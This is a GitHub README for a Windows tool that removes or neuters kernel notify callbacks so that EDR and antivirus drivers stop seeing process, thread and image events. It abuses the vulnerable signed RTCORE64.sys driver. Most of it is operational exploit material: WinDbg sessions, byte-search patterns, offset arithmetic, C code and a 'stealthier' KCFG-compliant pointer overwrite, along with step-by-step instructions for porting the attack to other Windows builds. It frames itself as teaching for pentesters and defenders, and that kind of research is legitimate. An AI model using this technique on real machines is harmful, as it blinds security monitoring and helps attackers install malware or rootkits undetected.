








# Kernel Notify Callbacks Removal


CheekyBlinder is a project that was developed developed 5 years ago for removing kernel callbacks related to process creation, image load, thread creation, and registry modifications by https://github.com/br-sn.

## Warning

Even though you can download the binaries from the `releases`, you have to make sure that the offsets and the binary search opcodes done is the same on your windows version or you will get a **BLUE SCREEN OF DEATH**

## Major Updates

- Updated the exploit to work on the latest Windows versions.

- Introduced a stealthier method for bypassing kernel callbacks (not publicly disclosed yet, at least not as far as i know).

- Completed the registry callback removal, which was previously non-completed.

- Added step-by-step guidance on modifying the exploit for future or different Windows versions.

- Heavely modified the code to make it reusable for other kernel modifications.

## Prerequisistes

This code is based on the original blog post: [Removing Kernel Callbacks Using Signed Drivers](https://br-sn.github.io/Removing-Kernel-Callbacks-Using-Signed-Drivers/) so i recommend going over the concepts there first.

This is an advanced topic requiring the following prerequisites:

- Assembly understanding

- Familiarity with C programming

- Experience with WinDbg

- Familiarity with IDA

- Windows kernel exploitation knowledge

## Tools Used

WinDbg: [Windows Debugging Tools](https://learn.microsoft.com/en-us/windows-hardware/drivers/debugger/)

IDA: [Hex-Rays IDA Free](https://hex-rays.com/ida-free)

## Kernel Debugging Setup

To debug your local kernel, follow the instructions here: [Setting up local kernel debugging](https://learn.microsoft.com/en-us/windows-hardware/drivers/debugger/setting-up-local-kernel-debugging-of-a-single-computer-manually)

## Target Audience

This project is for both pentesters and defenders to understand how attackers can bypass EDR kernel implementations.

## Purpose

Tools exist already for example [EDRSandblast](https://github.com/wavestone-cdt/EDRSandblast) which is great that will do this and more and calculate offsets automaticaly, but this is designed to be small and on point for multiple reasons:

- For everyone to be able to learn how technically bypassing EDR and kernel callback removal is done.
- For having the flexibility to create your own tool which make it pretty easier to bypass signature based detection.
- For researchers to be able to play around the code and debug and reverse.
- Introducing a stealthier way which is not included in EDRSandblast

## New Introduced Method

The public method for bypassing most kernel callbacks involves nulling the entire entry for the driver in the callback table. The new method discussed here is stealthier and modifies the callback function itself while maintaining Kernel Control Flow Guard (KCFG) compliance.

we can overwrite the function itself by a KCFG comppliant function because based on the documentation of [microsoft](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntddk/nc-ntddk-pcreate_process_notify_routine) for setting up a notify routine, the routine doesn't return anything (it's void), so it's easy to find a KCFG compliant function that doesn't do much and even if it returns, the return value is not used.

## Attacker Abuse Cases

An attacker with administrative privileges may attempt to disable EDR or install a rootkit. To interact with the kernel, a signed Microsoft driver is required. Since unsigned drivers cannot be loaded with Microsoft mitigations enabled (e.g., VBS, Hyper-V), attackers typically exploit vulnerable signed drivers that have not been blacklisted.

**NotifyRoutineKernelBypass project uses RTCORE64.sys driver which is not yet blocklisted by MICROSOFT**

## Introduction to Kernel Callbacks

AV vendors and kernel anti-cheat systems register kernel callbacks to monitor system events. These callbacks notify security software of user-mode events, such as process creation.

So the kernel driver will register a callback (for process creation in our example) inside the kernel which will notify the AV / EDR Driver when you create / spawn a new process in usermode.

The kernel uses a callback array / table to save all the callback entries that are registred by the AV / EDR and will be notified when you create a process for example.

**And the callback array is already writable in the kernel, which makes it as well easier for attackers to corrupt it.**

## Process creation kernel callbacks

For process creation callbacks the array is `nt!PspCreateProcessNotifyRoutine` which can be found inside the function `nt!PspSetCreateProcessNotifyRoutine`

<pre>
nt!PspSetCreateProcessNotifyRoutine+0x54:
fffff807`23c1b2dc 488bf8          mov     rdi,rax
fffff807`23c1b2df 4885c0          test    rax,rax
fffff807`23c1b2e2 0f84ae630f00    je      nt!PspSetCreateProcessNotifyRoutine+0xf640e (fffff807`23d11696)
fffff807`23c1b2e8 33db            xor     ebx,ebx
<mark>fffff807`23c1b2ea 4c8d2d0f124f00  lea     r13,[nt!PspCreateProcessNotifyRoutine (fffff807`2410c500)]</mark>
fffff807`23c1b2f1 488d0cdd00000000 lea     rcx,[rbx*8]
fffff807`23c1b2f9 4533c0          xor     r8d,r8d
fffff807`23c1b2fc 4903cd          add     rcx,r13
</pre>

And now we can access the entries in the callback array as follow:

<pre>
lkd> dq nt!PspCreateProcessNotifyRoutine
fffff807`2410c500  ffff800e`5beb7b4f ffff800e`5c7f725f
fffff807`2410c510  ffff800e`5c7f758f ffff800e`5c7f7a9f
fffff807`2410c520  ffff800e`5cdd5c2f ffff800e`5cdd652f
fffff807`2410c530  ffff800e`5cdd6a9f ffff800e`5e896edf
fffff807`2410c540  ffff800e`5e1ab33f ffff800e`5e1adf4f
fffff807`2410c550  00000000`00000000 00000000`00000000
fffff807`2410c560  00000000`00000000 00000000`00000000
fffff807`2410c570  00000000`00000000 00000000`00000000
</pre>

Each one of these entries are a callback registred by an EDR sys driver, lets take the second entry as an example <mark>ffff800e`5c7f725f</mark>

First we need to remove the last byte and null it out (The last 4 bits of these pointer addresses are insignificant), to access the callback entry structure.

<pre>
lkd> ? (ffff800e`5c7f725f >> 4) << 4
Evaluate expression: -140675806956976 = ffff800e`5c7f725<mark>0</mark>
lkd> dq ffff800e`5c7f7250 L4
ffff800e`5c7f7250  00000000`00000020 <mark>fffff807`252e9b70</mark>
ffff800e`5c7f7260  00000000`00000006 00000000`00000000
lkd> u fffff807`252e9b70 L3
<mark>WdFilter!MpCreateProcessNotifyRoutineEx:</mark>
fffff807`252e9b70 48895c2410      mov     qword ptr [rsp+10h],rbx
fffff807`252e9b75 48894c2408      mov     qword ptr [rsp+8],rcx
fffff807`252e9b7a 55              push    rbp
</pre>

The second entry which is <mark>fffff807`252e9b70</mark> is one of the functions that will be called when you create a process (WdFilter driver is related to windows defender). and this is only one of the callback entries.

So in the original cheeckyblinder project what he did is he nulled the whole entry in the callback table which is this one <mark>ffff800e`5c7f725f</mark>, so using a R/W primitive kernel exploit we can null the entry, and this is what the callback table looks like after nulling it out.

<pre>
lkd> dq nt!PspCreateProcessNotifyRoutine
fffff807`2410c500  ffff800e`5beb7b4f <mark>00000000`00000000</mark>
fffff807`2410c510  ffff800e`5c7f758f ffff800e`5c7f7a9f
fffff807`2410c520  ffff800e`5cdd5c2f ffff800e`5cdd652f
fffff807`2410c530  ffff800e`5cdd6a9f ffff800e`5e896edf
fffff807`2410c540  ffff800e`5e1ab33f ffff800e`5e1adf4f
fffff807`2410c550  00000000`00000000 00000000`00000000
fffff807`2410c560  00000000`00000000 00000000`00000000
fffff807`2410c570  00000000`00000000 00000000`00000000
</pre>

but what I did is, instead of nulling the whole entry, I changed the function in the callback array to another one that just returns but it has to be KCFG compliant.

`nt!KeGetCurrentIrql` is a KCFG valid function that just technicaly just returns.

<pre>
lkd> dq nt!PspCreateProcessNotifyRoutine
fffff807`2410c500  ffff800e`5beb7b4f <mark>ffff9b02`251f6dff</mark>
fffff807`2410c510  ffff800e`5c7f758f ffff800e`5c7f7a9f
fffff807`2410c520  ffff800e`5cdd5c2f ffff800e`5cdd652f
fffff807`2410c530  ffff800e`5cdd6a9f ffff800e`5e896edf
fffff807`2410c540  ffff800e`5e1ab33f ffff800e`5e1adf4f
fffff807`2410c550  00000000`00000000 00000000`00000000
fffff807`2410c560  00000000`00000000 00000000`00000000
fffff807`2410c570  00000000`00000000 00000000`00000000
lkd> dq ffff9b02`251f6df0 L2
ffff9b02`251f6df0  00000000`00000020 <mark>fffff804`8fdea060</mark>
lkd> u fffff804`8fdea060 L2
<mark>nt!KeGetCurrentIrql:</mark>
fffff804`8fdea060 440f20c0        mov     rax,cr8
fffff804`8fdea064 c3              ret
</pre>

As you can see, instead of nulling the whole callback entry => we just changed the function inside the entry to KeGetCurrentIrql which will do nothing leading to bypassing what ever the AV / EDR was checking.

**And if EDR was monitoring the callback entry itself if it's null or not, this will bypass that monitoring technique.**

## What is KCFG
KCFG (Control Flow Guard) is a security feature related to Control Flow Guard (CFG), which is designed to protect software from certain types of attacks, particularly control flow hijacking attacks (e.g., buffer overflows, return-oriented programming or ROP attacks). It was first introduced by Microsoft to prevent these attacks by ensuring that execution of code only occurs at valid locations.

So All indirect calls (call rax for example) will be replaced and verified by KCFG like below.

<pre>
lkd> u FLTMGR!FltDoCompletionProcessingWhenSafe+0x77
FLTMGR!FltDoCompletionProcessingWhenSafe+0x77:
fffff807`1ee01567 488bcd          mov     rcx,rbp
fffff807`1ee0156a bf01000000      mov     edi,1
<mark>fffff807`1ee0156f ff1583450300    call    qword ptr [FLTMGR!_guard_dispatch_icall_fptr (fffff807`1ee35af8)]</mark>
fffff807`1ee01575 8bd8            mov     ebx,eax
fffff807`1ee01577 41891e          mov     dword ptr [r14],ebx
fffff807`1ee0157a 408ac7          mov     al,dil
fffff807`1ee0157d 488b5c2450      mov     rbx,qword ptr [rsp+50h]
fffff807`1ee01582 488b6c2458      mov     rbp,qword ptr [rsp+58h]
lkd> dqs FLTMGR!_guard_dispatch_icall_fptr L1
fffff807`1ee35af8  fffff807`23820170 <mark>nt!guard_dispatch_icall</mark>
lkd> u fffff807`23820170
nt!guard_dispatch_icall:
<mark>fffff807`23820170 4c8b1d89179e00  mov     r11,qword ptr [nt!guard_icall_bitmap (fffff807`24201900)]</mark>
fffff807`23820177 4885c0          test    rax,rax
</pre>

The real function which we want to call will be loaded into rax and KCFG (nt!guard_dispatch_icall) will be called, which will verify that the function inside rax is a valid function through a bitmap using the following process (the process is inside nt!guard_dispatch_icall).

The calculation are based on the function `nt!KeGetCurrentIrql`, because this is the function that we are going to end up calling.

<pre>
lkd> ? nt!KeGetCurrentIrql >> 9 (Will be used as Index)
Evaluate expression: 36028779900694815 = 007ffffc`03abf11f

lkd> ? (nt!KeGetCurrentIrql >> 3) mod 40 (BitToCheck)
Evaluate expression: 54 = 00000000`00000036

lkd> dqs nt!guard_icall_bitmap L1
fffff807`58a01900  fbffa8d7`9452c248

lkd> dqs fbffa8d7`9452c248 + 007ffffc`03abf11f (Index) * 0x08 L1 (Entry)
ffffa8b7`b1b24b40  00410004`00004400

lkd> .formats 00410004`00004400
Evaluate expression:
Binary:  00000000 0<mark>1</mark>000001 00000000 00000100 00000000 00000000 01000100 00000000
</pre>

The `BitToCheck` which in our case is the bit 54 needs to be `1`, if it's `1` it means the call is valid which is the case for `KeGetCurrentIrql`.

So the plan is to replace the function pointing to the AV function to be called (`fffff807252e9b70`) to KeGetCurrentIrql (`fffff80723623fb0`) which will render the entry useless.

<pre>
lkd> u KeGetCurrentIrql L2
<mark>nt!KeGetCurrentIrql:</mark>
<mark>fffff807`23623fb0</mark> 440f20c0        mov     rax,cr8
fffff807`23623fb4 c3              ret
lkd> dq ffff800e`5c7f7250 L4
ffff800e`5c7f7250  00000000`00000020 <mark><del>fffff807`252e9b70</del></mark>
ffff800e`5c7f7260  00000000`00000006 00000000`00000000
lkd> eq ffff800e`5c7f7258 fffff807`23623fb0
lkd> dq ffff800e`5c7f7250 L4
ffff800e`5c7f7250  00000000`00000020 <mark>fffff807`23623fb0</mark>
ffff800e`5c7f7260  00000000`00000006 00000000`00000000
lkd> u fffff807`252e9b70 L2
<mark>WdFilter!MpCreateProcessNotifyRoutineEx:</mark>
<mark>fffff805`55e99b70</mark> 48895c2410      mov     qword ptr [rsp+10h],rbx
fffff805`55e99b75 48894c2408      mov     qword ptr [rsp+8],rcx
</pre>

## How to Fix the code to work on your windows version (process creation callback first)

### Fixing the bytes for the byte search for your windows OS

The change needs to be done on both `findprocesscallbackroutine` and `findprocesscallbackroutinestealth`

`findprocesscallbackroutinestealth` is the function that i introduced which will modify the function inside the entry.

`findprocesscallbackroutine` is the original function from the original exploit which will null out the entry.

The original code will do a `byte search` to find the location of the function that is using the callback table (`nt!PspSetCreateProcessNotifyRoutine`) starting from a exported function close to it. 

First you need double check the bytes did not change for your windows OS.

<pre>
struct Offsets {
    <mark>DWORD64 process;</mark>
    DWORD64 image;
    DWORD64 thread;
    DWORD64 registry;
};

struct Offsets getVersionOffsets() {
    wchar_t value[255] = { 0x00 };
    DWORD BufferSize = 255;
    RegGetValue(HKEY_LOCAL_MACHINE, L"SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion", L"ReleaseId", RRF_RT_REG_SZ, NULL, &value, &BufferSize);
    wprintf(L"[+] Windows Version %s Found\n", value);
    auto winVer = _wtoi(value);
    switch (winVer) {
        //case 1903:
    case 1909:
        return { 0x8b48cd0349c03345, 0xe8d78b48d90c8d48, 0xe8cd8b48f92c8d48, 0x4024448948f88b48 };
    case 2004:
        return { 0x8b48cd0349c03345, 0xe8d78b48d90c8d48, 0xe8cd8b48f92c8d48, 0x4024448948f88b48 };
    case 2009:
        return { <mark>0x7340fe8341f63345</mark>, 0x8d48d68b48c03345, 0x48d90c8d48c03345, 0x4024448948f88b48 };
    default:
        wprintf(L"[!] Version Offsets Not Found!\n");

    }

}
</pre>

The first DWORD is the callback related to the process creation and it contains the bytes that the program will search for.

 we know that the function `nt!PspSetCreateProcessNotifyRoutine` is using the callback array.

The idea is to find some bytes close to the `lea` command that is using the callback array we are interested in, and the bytes that we will use, they need to be static so we can rely on them for byte searching and not change after each reboot.

<pre>
lkd> u nt!PspSetCreateProcessNotifyRoutine L20
nt!PspSetCreateProcessNotifyRoutine:
fffff800`a4e61fd0 48895c2408      mov     qword ptr [rsp+8],rbx
fffff800`a4e61fd5 48896c2410      mov     qword ptr [rsp+10h],rbp
fffff800`a4e61fda 4889742418      mov     qword ptr [rsp+18h],rsi
fffff800`a4e61fdf 57              push    rdi
fffff800`a4e61fe0 4154            push    r12
fffff800`a4e61fe2 4155            push    r13
fffff800`a4e61fe4 4156            push    r14
fffff800`a4e61fe6 4157            push    r15
fffff800`a4e61fe8 4883ec20        sub     rsp,20h
fffff800`a4e61fec 8bf2            mov     esi,edx
fffff800`a4e61fee 8bda            mov     ebx,edx
fffff800`a4e61ff0 83e602          and     esi,2
fffff800`a4e61ff3 4c8bf9          mov     r15,rcx
fffff800`a4e61ff6 f6c201          test    dl,1
fffff800`a4e61ff9 0f8487000000    je      nt!PspSetCreateProcessNotifyRoutine+0xb6 (fffff800`a4e62086)
fffff800`a4e61fff 65488b2c2588010000 mov   rbp,qword ptr gs:[188h]
<mark>fffff800`a4e62008 4c8d2d712a4a00  lea     r13,[nt!PspCreateProcessNotifyRoutine (fffff800`a5304a80)]</mark>
fffff800`a4e6200f 83c8ff          or      eax,0FFFFFFFFh
fffff800`a4e62012 660185e4010000  add     word ptr [rbp+1E4h],ax
fffff800`a4e62019 90              nop
<mark>fffff800`a4e6201a 4533f6          xor     r14d,r14d
fffff800`a4e6201d 4183fe40        cmp     r14d,40h
fffff800`a4e62021 7338            jae     nt!PspSetCreateProcessNotifyRoutine+0x8b (fffff800`a4e6205b)</mark>
fffff800`a4e62023 4e8d24f500000000 lea     r12,[r14*8]
</pre>

And so the bytes that we can use for example is the highlighed ones starting from xor, but we need to write them in the c variable in reverse (little endian arch) which is `0x7340fe8341f63345`.

<pre>
lkd> dq ffffff800`a4e6201a L1
fffff800`a4e6201a  7340fe83`41f63345
</pre>

### Fixing the offset
Next we need to fix the offset, to be able to extract and calculate the address of the callback array.

<pre>
void notifyRoutine::findprocesscallbackroutine(DWORD64 remove) {

	//we search the memory between PoRegisterCoalescingCallback and EtwWriteEndScenario for a specific set of instructions next to a relative LEA containing the offset to the PspCreateProcessNotifyRoutine array of callbacks.
	Offsets offsets = getVersionOffsets();
	const DWORD64 IoDeleteSymbolicLink = GetFunctionAddress("IoDeleteSymbolicLink");
	const DWORD64 RtlDestroyHeap = GetFunctionAddress("RtlDestroyHeap");

	//the address returned by the patternsearch is just below the offsets. 
	DWORD64 patternaddress = PatternSearch(IoDeleteSymbolicLink, RtlDestroyHeap, offsets.process);
	Log("[+] patternaddress: %p", patternaddress);

	DWORD offset;

	BOOL b = this->objMemHandler->VirtualRead(
		(DWORD64)patternaddress - <mark>0x0f</mark>,
		&offset,
		sizeof(offset)
	);

	//so we take the 64 bit address, but have a 32 bit addition. To prevent overflow, we grab the first half (shift right, shift left), then add the 32bit DWORD patternaddress with the 32bit offset, and subtract 8. *cringe*
	DWORD64 PspCreateProcessNotifyRoutineAddress = (((patternaddress) >> 32) << 32) + ((DWORD)(patternaddress)+offset) - <mark>0x0f</mark> + 0x04;
  ....................
}
</pre>

Looking at this piece of code, we will see that after the byte search we will get the patternaddress which will be pointing to the xor command `fffff800a4e6201a`.
We need to substract from it an offset to make it point to the 4-byte relative offset of the array which is `712a4a00` in reverse at `fffff800a4e6200b`.

<pre>
lkd> dd fffff800`a4e6200b L1
fffff800`a4e6200b  004a2a71
</pre>

so we need to substract `0xf` from the pattern address.

<pre>
lkd> dd fffff800`a4e6200b L1
fffff800`a4e6200b  004a2a71
lkd> ? fffff800`a4e6201a - fffff800`a4e6200b
Evaluate expression: 15 = 00000000`0000000f
</pre>

### Fixing the functions
`nt!PspSetCreateProcessNotifyRoutine` is not an exported function, so we cannot get the address of the function directly in our c code.
We need to start the byte search using a function that is exported and close to `nt!PspSetCreateProcessNotifyRoutine`.

the functions needs to be exported to be able to use GetProcAddress and GetModuleHandle on them and get the function address.

So To find the closest exported functions (start and end) to use in our code as a starting point for the byte search, we can use IDA.

First let's get the offset to the function from the nt base

<pre>
lkd> ? nt!PspSetCreateProcessNotifyRoutine - nt
Evaluate expression: 8499848 = <mark>00000000`00a61fd0</mark>
</pre>

Then copy the `ntoskrnl.exe` from `c:/windows/system32` to open it in IDA.

Then in IDA, first of all we rebase the IMAGEBASE to 0x00, to make the offsets we get in `windbg` from the nt base the actual address in IDA, without any additional calculations.





Next we go the `Export table` in IDA and reorder all the functions by `address`.

Note: It will take some time for the addresses in the export table to be refreshed after the rebase.

And then you have to pick 2 functions where `0000000000a61fd0` which is the address of `nt!PspSetCreateProcessNotifyRoutine` is between them.

As you can, from the screenshot `IoDeleteSymbolicLink` and `RtlDestroyHeap` are the start and end functions that i will be using as `nt!PspSetCreateProcessNotifyRoutine` falls in between, so i can use `IoDeleteSymbolicLink` as the start of the byte search.



### Rest of the code

and the rest of the code is looping thourght the callback array that we just found, and nulling the entry or replacing the function in the entry depending on what function you are using.

```
/delproc <address> - Remove Process Creation Callback
/delprocstealth <address> - overwriting the Process Creation function Callback
```

You can check the [Cheeckyblinder Blog](https://br-sn.github.io/Removing-Kernel-Callbacks-Using-Signed-Drivers/) for more info about the code.

## Thread Callback
When creating a new thread, each entry in the callback array that was registred by the EDR will be called.

Same steps as we did for the process callback, it's just a different callback function and callback array for the thread related actions.

The function is called `nt!PspSetCreateThreadNotifyRoutine` which is using the thread callback array `nt!PspCreateThreadNotifyRoutine`

<pre>
lkd> u nt!PspSetCreateThreadNotifyRoutine L12
nt!PspSetCreateThreadNotifyRoutine:
fffff800`a4b54b18 48895c2408      mov     qword ptr [rsp+8],rbx
fffff800`a4b54b1d 4889742410      mov     qword ptr [rsp+10h],rsi
fffff800`a4b54b22 57              push    rdi
fffff800`a4b54b23 4883ec20        sub     rsp,20h
fffff800`a4b54b27 8bf2            mov     esi,edx
fffff800`a4b54b29 8bd2            mov     edx,edx
fffff800`a4b54b2b e8807f3000      call    nt!ExAllocateCallBack (fffff800`a4e5cab0)
fffff800`a4b54b30 488bf8          mov     rdi,rax
fffff800`a4b54b33 4885c0          test    rax,rax
fffff800`a4b54b36 746f            je      nt!PspSetCreateThreadNotifyRoutine+0x8f (fffff800`a4b54ba7)
fffff800`a4b54b38 33db            xor     ebx,ebx
fffff800`a4b54b3a 83fb40          cmp     ebx,40h
fffff800`a4b54b3d 735e            jae     nt!PspSetCreateThreadNotifyRoutine+0x85 (fffff800`a4b54b9d)
<mark>fffff800`a4b54b3f 488d0d3afd7a00  lea     rcx,[nt!PspCreateThreadNotifyRoutine (fffff800`a5304880)]</mark>
<mark>fffff800`a4b54b46 4533c0          xor     r8d,r8d
fffff800`a4b54b49 488d0cd9        lea     rcx,[rcx+rbx*8]
fffff800`a4b54b4d 488bd7          mov     rdx,rdi</mark>
fffff800`a4b54b50 e8774ac6ff      call    nt!ExCompareExchangeCallBack (fffff800`a47b95cc)
</pre>

The bytes will be `0x48d90c8d48c03345` and we need to substract `0x04` to get to the relative offset address of the callback array which is `007afd3a` and read it.

<pre>
lkd> dq fffff800`a4b54b46 L1
fffff800`a4b54b46  48d90c8d`48c03345
</pre>

<pre>
struct Offsets {
    DWORD64 process;
    DWORD64 image;
    <mark>DWORD64 thread;</mark>
    DWORD64 registry;
};

struct Offsets getVersionOffsets() {
    wchar_t value[255] = { 0x00 };
    DWORD BufferSize = 255;
    RegGetValue(HKEY_LOCAL_MACHINE, L"SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion", L"ReleaseId", RRF_RT_REG_SZ, NULL, &value, &BufferSize);
    wprintf(L"[+] Windows Version %s Found\n", value);
    auto winVer = _wtoi(value);
    switch (winVer) {
        //case 1903:
    case 1909:
        return { 0x8b48cd0349c03345, 0xe8d78b48d90c8d48, 0xe8cd8b48f92c8d48, 0x4024448948f88b48 };
    case 2004:
        return { 0x8b48cd0349c03345, 0xe8d78b48d90c8d48, 0xe8cd8b48f92c8d48, 0x4024448948f88b48 };
    case 2009:
        return { 0x7340fe8341f63345, 0x8d48d68b48c03345, <mark>0x48d90c8d48c03345</mark>, 0x4024448948f88b48 };
    default:
        wprintf(L"[!] Version Offsets Not Found!\n");

    }

}
</pre>

Using the same method as the process callback we need to find 2 functions close to `PspSetCreateThreadNotifyRoutine` for the bytes searching.

<pre>
lkd> ? nt!PspSetCreateThreadNotifyRoutine - nt
Evaluate expression: 7686936 = 00000000`00754b18
</pre>



## Image Callback

The function is `nt!PsSetLoadImageNotifyRoutineEx`

<pre>
lkd> u nt!PsSetLoadImageNotifyRoutineEx L15
nt!PsSetLoadImageNotifyRoutineEx:
fffff800`a4e5c970 48895c2408      mov     qword ptr [rsp+8],rbx
fffff800`a4e5c975 48896c2410      mov     qword ptr [rsp+10h],rbp
fffff800`a4e5c97a 4889742418      mov     qword ptr [rsp+18h],rsi
fffff800`a4e5c97f 57              push    rdi
fffff800`a4e5c980 4883ec20        sub     rsp,20h
fffff800`a4e5c984 488be9          mov     rbp,rcx
fffff800`a4e5c987 48f7c2feffffff  test    rdx,0FFFFFFFFFFFFFFFEh
fffff800`a4e5c98e 7569            jne     nt!PsSetLoadImageNotifyRoutineEx+0x89 (fffff800`a4e5c9f9)
fffff800`a4e5c990 e81b010000      call    nt!ExAllocateCallBack (fffff800`a4e5cab0)
fffff800`a4e5c995 33db            xor     ebx,ebx
fffff800`a4e5c997 488bf0          mov     rsi,rax
fffff800`a4e5c99a 4885c0          test    rax,rax
